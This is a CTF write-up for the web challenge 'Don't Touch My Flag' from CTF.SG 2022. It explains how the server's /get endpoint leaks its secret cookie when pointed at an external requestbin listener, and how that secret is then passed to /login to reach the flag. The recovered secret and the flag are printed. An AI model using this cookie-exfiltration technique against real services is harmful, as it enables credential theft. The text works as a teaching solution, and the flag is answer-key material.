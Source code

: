 ```yaml
---
title: "[CTF.SG'22] Don't Touch My Flag"
date: 2022-03-13T00:00:00+08:00
author: "Bowen"
tags:
- Python
- web
ctfs:
- CTF.SG'22
---
```


# Don't Touch my Flag (CTF.SG 2022)

Challenge Description
![image](https://user-images.githubusercontent.com/85286288/158061123-f146dc46-5a9b-47dd-a010-8c7a97b44487.png)

## Understanding how the website works

### Get Function

Firstly, from the index function, we see that it calls `/get`.
Looking at the `get` function, we see that it sends a request to the url, with
the `secret` as a cookie. Keep this in mind as we'll need to make use of the
`secret` to get the flag.
Lastly, it censors the response by converting everything into `*`.

![image](https://user-images.githubusercontent.com/85286288/158061430-e59e7762-9f13-4c32-86f0-aa939fea83b5.png)
![image](https://user-images.githubusercontent.com/85286288/158061489-649a89bc-5a22-4497-b1ad-496d95425fec.png)

### Flag Function

We see that the webpage uses the `get` function to get `\flag`, so that's
probably the best function to look into next.

![image](https://user-images.githubusercontent.com/85286288/158061557-9e8880ce-5a26-4960-81bb-b648df4dd29f.png)

Seems like all it does is it reveals the flag if `secret` is correct.

Based on these information, we could certainly get the value of `secret` and
write a script to send it as a cookie. However, the `\login` function does that
for us :O

### Login Function

![image](https://user-images.githubusercontent.com/85286288/158061894-5f86863a-db4e-41a4-b3af-7d11ac3919ec.png)

We see that the login function will redirect us to the next webpage with
`secret` as a cookie parameter if `secret` as a argument passed in is correct.

### Steps to Solve

1. Get the value of `secret`.
2. Use the `login` function to send a request to `flag` (`/login?next=/flag&secret=secret`).
3. Done

### Getting Secret

As the `get` function sends a request with `secret` as a cookie, we can set up
a listener on an external website, which is used to see the values of the
request sent.

I went to https://pipedream.com/requestbin to set up a listener, and made a
`GET` request through `/get?uri={requestbin_link_here}`. Viola, we got the `secret`!

![image](https://user-images.githubusercontent.com/85286288/158062121-7a953b78-ca90-47cf-aad8-09f18ef0162a.png)

### Using Login to get Flag

Now, we just need to use `login` to send a request to `flag`, simply by doing `/login?next=/flag&secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b`.
Ez claps, we got the flag :D

### Flag

`CTFSG{d0nT_toUcH_mY_c00k13s}`

![image](https://user-images.githubusercontent.com/85286288/158062185-cf207d80-ef55-416c-84c1-7f8aacf119c1.png)
